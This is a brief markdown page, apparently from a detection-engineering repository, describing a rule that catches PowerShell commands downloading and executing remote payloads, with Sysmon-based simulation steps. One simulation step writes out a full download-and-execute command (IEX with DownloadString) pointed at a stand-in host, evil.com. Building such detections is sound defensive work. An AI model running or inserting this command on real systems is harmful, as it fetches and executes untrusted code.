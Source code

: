 # Remote Threat Detection Rule

**Purpose:**  
Detects PowerShell commands used to download & execute payloads remotely.

**Simulation Steps:**  
- Run: `powershell -Command "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/mal')"`
- Look for encoded commands or suspicious URLs
- Trigger via Sysmon Event ID 1 (Process Creation)

**Screenshot:**  
![Image](https://github.com/user-attachments/assets/1c2c760e-b4bf-4c81-833e-d76d9dbb7e19) 

